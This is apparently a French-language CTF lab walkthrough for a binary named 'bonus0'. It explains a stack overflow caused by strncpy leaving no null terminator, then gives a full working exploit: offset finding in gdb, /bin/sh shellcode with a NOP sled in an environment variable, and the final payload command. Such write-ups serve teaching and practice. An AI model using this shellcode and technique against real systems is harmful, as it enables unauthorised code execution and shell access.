

# Bonus0 — Walkthrough

> **En résumé :** `main` appelle `pp`, qui lit deux mots via `p` puis les concatène. Le bug vient de `p` : son `strncpy` de 20 octets ne pose pas de `\0` final, donc le premier mot « déborde » sur le second, la concaténation dépasse le buffer de 54 octets et écrase EIP → shellcode.



## Analyse du code

Trois fonctions :

```
main()
  └─ pp(result[54])          // remplit un buffer de 54 bytes
       ├─ p(local_34, ...)   // lit le 1er mot  → 20 bytes max
       ├─ p(local_20, ...)   // lit le 2ème mot → 20 bytes max
       ├─ strcpy(result, local_34)
       ├─ result[strlen] = ' '
       ├─ result[strlen+1] = '\0'
       └─ strcat(result, local_20)
```

### La fonction `p()` — source de la vulnérabilité

```c
void p(char *dest, char *prompt) {
    char buf[4104];
    read(0, buf, 4096);
    *strchr(buf, '\n') = '\0';
    strncpy(dest, buf, 20);   // pas de \0 si input == 20 chars
}
```

`strncpy(dest, buf, 20)` ne pose **pas** de null-terminateur si l'input fait exactement 20 caractères.

---

## La vulnérabilité — strncpy sans null-terminateur

Sur la stack de `pp()`, les deux buffers sont **adjacents** en mémoire :

```
adresses croissantes →
┌────────────────────┬────────────────────┐
│   local_34 [20]    │   local_20 [20]    │
└────────────────────┴────────────────────┘
  EBP - 52             EBP - 32
```

Si on remplit `local_34` avec 20 chars (pas de `\0`), alors :

```c
strcpy(result, local_34)
```

...ne trouve pas de `\0` dans `local_34`, continue dans `local_20`, et copie
les **40 bytes** des deux buffers d'un coup dans `result`.

Ensuite `strcat(result, local_20)` rajoute encore 20 bytes.

### Ce qui est écrit dans result[54]

```
strcpy  → 40 bytes  (local_34 + local_20 fusionnés)
' '     →  1 byte
strcat  → 20 bytes  (local_20 à nouveau)
'\0'    →  1 byte
─────────────────
total   → 62 bytes dans result[54]  → OVERFLOW
```

### Stack de main()

```
adresses croissantes →
┌──────────────────────┬────────────┬────────────────────┐
│   result[54]         │ saved EBP  │  return addr (EIP) │
│   offset 0..53       │  54..57    │  58..61            │
└──────────────────────┴────────────┴────────────────────┘
  ← EBP - 58
```

62 bytes écrits → on écrase EIP. 

> **Le but : contrôler ce que le CPU exécute ensuite.**
> Concrètement, **on écrase l'adresse de retour** stockée sur la pile (juste
> après `result` + le saved EBP). Au `ret`, le CPU recopie cette adresse dans
> **EIP** — le registre qui pointe la prochaine instruction à exécuter. Comme
> on a remplacé l'adresse de retour par celle de notre shellcode, le `ret` fait
> sauter le CPU sur **notre** code au lieu de revenir dans `main`. On ne touche
> jamais EIP directement : on pirate l'adresse de retour, et `ret` fait le
> transfert. (En jargon sécu on dit « contrôler EIP » : c'est le même objectif,
> exprimé par sa conséquence.)

---

## Trouver l'offset

On envoie un pattern reconnaissable pour identifier quels bytes atterrissent dans EIP :

```bash
(python -c "print 'A'*20"; sleep 1; python -c "print 'BBBBCCCCDDDDEEEEFFFFGG'"; cat) | gdb -q ~/bonus0 -ex run -ex "info registers eip"
```
Crash à `0x45444444` → bytes en mémoire (little-endian) : `44 44 44 45` = `D D D E`

```
position : 0123456789...
input    : BBBBCCCCDDDDEEEEFFFFGG
                    ^^^^
                    9  12   ← "DDDE" = octets posés sur EIP (index à partir de 0)
```

Les bytes aux **positions 9 à 12 (index 0) du 2ème input** atterrissent dans EIP.
C'est donc là qu'on placera l'adresse de retour : `'A'*9 + <adresse> + 'A'*7` (9 + 4 + 7 = 20).

---

## Exploit — shellcode en variable d'environnement

NX (no-execute)étant désactivé, on peut exécuter du code directement sur la stack.
On place le shellcode dans une variable d'environnement avec un NOP sled pour
ne pas avoir à viser exactement le premier byte.

### Schéma global

```
Mémoire au moment de l'exécution :

  [ variable d'env SHELLCODE              ]   [ stack de main         ]
  [ \x90 \x90 ... \x90 | /bin/sh shellcode]   [ result[54] | EBP | EIP ]
         NOP sled (100 bytes)                              ↑
                                                  on écrase EIP
                                                  avec l'adresse du sled
```

On n'a pas besoin de viser précisément le shellcode, n'importe quelle adresse
dans le NOP sled fonctionne — le CPU avance instruction par instruction jusqu'au shellcode.

### Étape 1 — Exporter le shellcode

```bash
export SHELLCODE=$(python -c "print '\x90'*100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'")
```

### Étape 2 — Trouver l'adresse de la variable d'env

On écrit un mini-programme qui affiche l'adresse mémoire de `SHELLCODE`
(`getenv` la renvoie), on le compile, puis on le lance.

```bash
# 1. créer le fichier source
cat > /tmp/getenv.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
int main() {
    printf("%p\n", getenv("SHELLCODE"));
    return 0;
}
EOF

# 2. compiler
gcc /tmp/getenv.c -o /tmp/getenv

# 3. lancer → affiche l'adresse
/tmp/getenv
# → 0xbffff8a3   (EXEMPLE : chez toi ce sera une AUTRE valeur, prends la tienne)
```

>  L'adresse `0xbffff8a3` n'est qu'un exemple. Utilise la valeur que **ton**
> `/tmp/getenv` affiche, et écris-la en little-endian dans l'étape suivante.

### Étape 3 — Construire l'input

```
2ème input (20 bytes) :
┌─────────────┬──────────────────────────┬─────────────┐
│  'A' * 9    │  \xa3\xf8\xff\xbf        │  'A' * 7    │
│  padding    │  adresse (little-endian) │  padding    │
└─────────────┴──────────────────────────┴─────────────┘
  pos 0..8       pos 9..12                 pos 13..19
                      ↑
                  atterrit dans EIP
```

### Étape 4 — Lancer l'exploit

```bash
(python -c "print 'A'*20"; sleep 1; python -c "print 'A'*9 + '\xa3\xf8\xff\xbf' + 'A'*7"; cat) | ./bonus0
```

Le `sleep 1` sépare les deux `read()` (cf. section « Trouver l'offset »), et le
`cat` final garde stdin ouvert pour que le shell puisse recevoir des commandes.